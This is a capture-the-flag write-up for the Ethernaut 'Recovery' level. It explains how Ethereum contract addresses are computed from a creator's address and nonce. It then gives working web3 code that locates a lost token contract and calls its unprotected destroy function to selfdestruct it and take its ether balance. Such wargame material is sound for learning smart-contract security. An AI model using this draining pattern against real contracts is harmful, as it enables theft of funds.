

## Recovery

## Key

### Trace info of Tx in ethernaut

### Computation of a lost contract address

> The address of an external account is determined from the public key while the address of a contract is determined at the time the contract is created (it is derived from the creator address and the number of transactions sent from that address, the so-called “nonce”).
> https://docs.soliditylang.org/en/v0.8.13/introduction-to-smart-contracts.html#accounts

> Yellow paper
> The address of the new account is defined as being the rightmost 160 bits of the Keccak-256 hash of the RLP encoding of the structure containing only the sender and the account nonce. For CREATE2 the rule is different and is described in EIP-1014 by Buterin [2018].
> https://ethereum.github.io/yellowpaper/paper.pdf

```js
address = right-20-bytes(keccak(RLP(sender address, nonce)))

nonce -> number of Tx that address made.
address -> EOA or contract
RLP -> serializes data in ethereum
```

If you loose the receipt of a Tx you need to reecompute the contract address
Methods to find a contract address

`selfdestruct(_to)` destroys the current contract and sends the money in its balance to the account sent via argument.

## Solution

A) Via ethernaut, search details of Tx that created Recovery contract
https://rinkeby.etherscan.io/address/0x8F84076845892c291E5b9c430De3B4b7bbDE4224#internaltx
https://rinkeby.etherscan.io/tx/0xb232035a6a5dd60481aa18a08952c6846e651ead6d1fb4ba0e046e4a66fb6ca4



First transfer oth eth is to the address `0xa90ca8c74dF7A35544f85A4411EeA2fFfB396665`. And that is the address needed with a Balance of 0.001 Ether.

B) Computing the address

1. Find formula to compute the address of the first SimpleToken contract created.
2. Fill: addr of `Recovery` as the sender address, `nonce` == 1 as we want by the task the "first token contract"
3. Calculate in browser

```
address = 0x8F84076845892c291E5b9c430De3B4b7bbDE4224

# keccak & RLP serialization with address and nonce "0x01"
> web3.utils.solidtiySha3("0xd6", "0x94", _address, _nonce)
> computed = web3.utils.soliditySha3("0xd6", "0x94", contract.address, "0x01")
"0xf6fe46076b3e1b23265b2357a90ca8c74df7a35544f85a4411eea2fffb396665"

~20bytes == 40 chars from the right to the left.
> computed.slice(-40)
"a90ca8c74df7a35544f85a4411eea2fffb396665"
```

C) Call `destroy(player)` function on the Simpletoken contract recently found. That fn in turns willcall `selfdestruct(player)` to transfer to ourselves the balance of the "lost" SimpleToken contract.

_Optional_ invoke those fn without creating a malicious contract via web3:

```
> data = web3.eth.abi.encodeFunctionCall({
    name: 'destroy',
    type: 'function',
    inputs: [{
        type: 'address',
        name:'_to'
    }]
}, [player]);

# here put the founded address of SimpleToken contract with that payload data
> await web3.eth.sendTransaction({
    to: "0xa90ca8c74df7a35544f85a4411eea2fffb396665",
    from: player,
    data: data
})
```

## Post-solution info

Contract addresses are deterministic and are calculated by `keccack256(address, nonce)` where the `address` is the address of the contract (or ethereum address that created the transaction) and nonce is the number of contracts the spawning contract has created (or the transaction nonce, for regular transactions).

Because of this, one can send ether to a pre-determined address (which has no private key) and later create a contract at that address which recovers the ether. This is a non-intuitive and somewhat secretive way to (dangerously) store ether without holding a private key.

An interesting [blog post](http://martin.swende.se/blog/Ethereum_quirks_and_vulns.html) by Martin Swende details potential use cases of this.

If you're going to implement this technique, make sure you don't miss the nonce, or your funds will be lost forever.
